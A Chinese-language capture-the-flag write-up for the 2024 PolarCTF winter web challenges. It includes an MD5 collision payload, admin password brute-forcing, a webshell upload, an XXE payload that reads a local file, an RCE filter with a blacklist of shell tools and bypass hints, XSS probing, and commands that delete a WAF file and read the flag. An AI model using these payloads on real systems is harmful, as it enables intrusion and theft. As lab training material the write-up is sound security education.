# 2024 polarctf 冬季个人挑战赛 web wp-先知社区

> **来源**: https://xz.aliyun.com/news/16101  
> **文章ID**: 16101

---

## 简单的导航站

这个题目考点主要是MD5强绕过和文件上传及对burp爆破模块的使用  
题目给了5个模块,肯定是要管理员登录，然后进行文件上传的，先注册一个账号试试  




  
进去发现是个MD5强比较

```
?user1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&user2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2

```

得到所有的用户名  
  
在首页发现一个密码  
  
burp抓包爆破  
结果用户名是：P0la2adm1n  
  
成功来到文件上传地点  
上传一句话  


  
成功写入，蚁剑连接  
  
发现有一堆flag，去flag认证系统爆破即可

## 井字棋

查看网页源码  
  
发现给who赋值即可win  


## 狗黑子的RCE

```
<?php
error_reporting(0);
highlight_file(__FILE__);
header('content-type:text/html;charset=utf-8');


    $gouheizi1=$_GET['gouheizi1'];
    $gouheizi2=$_POST['gouheizi2'];
    $gouheizi2=str_replace('gouheizi', '', $gouheizi2);

    if (preg_match("/ls|dir|flag|type|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $gouheizi1)) {
        echo("badly!");
        exit;
    } 
    if($gouheizi2==="gouheizi"){
        system($gouheizi1);
    }else{
        echo "gouheizi!";
    }
?>

```

第一关双写绕过即可  
第二关反斜杠绕过

## xxmmll

  
响应头给了一个php文件地址  


  
这儿应该是xml文件读取了  
直接读就好了

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file://flag" >]>
<root>
<name>
&xxe;
</name>
</root>

```



## 赌王

  
爆破一下看能不能出来  
  
成功出来提示,访问ed3d2c21991e3bef5e069713af9fa6ca.php  
  
出来一个输入框，尝试一下xss  
  
提示我们用confirm弹窗

  
去e744f91c29ec99f0e662c9177946c627.php看看  


  
要求我们必须是1.1.1.1才能执行命令  




## 任务cmd

查看响应头  
  
爆破密码123123  
  
根据源码提示  
  
id换成xiaohei  
  
扫描目录发现有个login.php

  
密码爆破出来是flower  
根据题目猜测参数为cmd  


## 坦诚相见

可以命令执行，但是不能查看/目录  


  
cat no.php  
  
发现waf，这里删除这个文件即可  
rm no.php  


  
sudo cat /f\*  
